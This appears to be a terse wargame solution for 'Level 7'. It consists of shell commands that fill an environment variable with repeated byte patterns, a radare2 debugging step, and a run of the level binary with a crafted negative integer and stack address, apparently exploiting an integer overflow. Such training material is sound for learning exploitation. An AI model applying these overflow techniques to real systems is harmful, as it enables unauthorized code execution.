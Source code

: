 # Level 7
```$ export JUMP_LOCATION=$(python -c "print '\x08\x04\x84\x70' * 32000")

$ r2 -A -d /levels/level07
$ ood -2147483584 `!python -c "print '0xbffeaaaa'"`
```
0x08048470
0x04847008

export JUMP_LOCATION=$(python -c "print '\x57\x4f\x4c\x46' * 32000")

export JUMP_LOCATION=$(python -c "print 'A' + '\x46\x4c\x4f\x57' * 32000")


```
level7@io:~$ export JUMP_LOCATION=$(python -c "print 'A' + '\x46\x4c\x4f\x57' * 32000")
level7@io:~$ /levels/level07 -2147483616 $(python -c "print '0xbffeaaaa'")
```
